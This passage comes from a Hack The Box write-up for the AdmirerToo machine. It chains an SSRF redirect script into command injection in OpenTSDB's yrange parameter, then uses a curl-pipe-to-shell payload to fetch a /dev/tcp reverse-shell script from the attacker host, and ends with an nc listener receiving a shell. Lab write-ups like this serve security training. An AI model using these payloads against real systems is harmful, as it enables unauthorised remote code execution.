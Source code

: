 [/api/suggest](http://opentsdb.net/docs/build/html/api_http/suggest.html)

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ python2 redirect.py --port 10099 "http://10.10.11.137:4242/api/suggest?type=metrics"
```

```json
["http.stats.web.hits"]
```

Took the existent PoC and fixed with the available metric:

```python
$ python2 redirect.py --port 10098 'http://10.10.11.137:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system("touch/tmp/poc.txt")]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
```

```json
{"plotted":4,"timing":0,"cachehit":"disk","etags":[["host"]],"points":8}
```

Reverse shell:

**rev.sh**

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/10100 0>&1'
```

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.137 - - [24/Apr/2022 10:54:50] "GET / HTTP/1.1" 200 -
10.10.11.137 - - [24/Apr/2022 10:56:33] "GET /rev.sh HTTP/1.1" 200 -
10.10.11.137 - - [24/Apr/2022 10:57:33] "GET /rev.sh HTTP/1.1" 200 -
```

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ python2 redirect.py --port 10099 'http://10.10.11.137:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system("curl${IFS}http://10.10.14.2/rev.sh|/bin/sh")]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
serving at port 10099
10.10.11.137 - - [24/Apr/2022 10:56:33] "GET / HTTP/1.0" 301 -
10.10.11.137 - - [24/Apr/2022 10:57:33] "GET / HTTP/1.0" 301 -
```

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ nc -nlvp 10100
listening on [any] 10100 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.137] 43194
bash: cannot set terminal process group (549): Inappropriate ioctl for device
bash: no job control in this shell
opentsdb@admirertoo:/$ id
uid=1000(opentsdb) gid=1000(opentsdb) groups=1000(opentsdb)
```
